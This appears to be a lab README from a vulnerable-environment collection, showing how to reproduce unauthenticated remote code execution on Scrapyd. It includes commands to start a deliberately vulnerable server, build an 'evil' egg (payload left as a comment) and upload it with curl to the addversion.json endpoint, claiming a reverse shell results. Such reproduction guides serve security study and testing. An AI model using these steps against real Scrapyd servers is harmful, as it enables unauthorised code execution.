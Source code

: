# Scrapyd Unauthenticated Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

Scrapyd is an application for deploying and running Scrapy spiders. It enables users to deploy (upload) projects and control their spiders using a JSON API.

References: <https://www.leavesongs.com/PENETRATION/attack-scrapy.html>

## Start server

Execution the following command to start a scrapyd server:

```bash
docker-compose up -d
```

After scrapyd is deployed, the server is listening on `http://your-ip:6800`.

## Reproduce

Build a evil egg archive:

```bash
pip install scrapy scrapyd-client
scrapy startproject evil
cd evil
# edit evil/__init__.py, add evil code
scrapyd-deploy --build-egg=evil.egg
```

Upload evil egg to the scrapyd server:

```bash
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

reverse shell is available:

![](1.png)

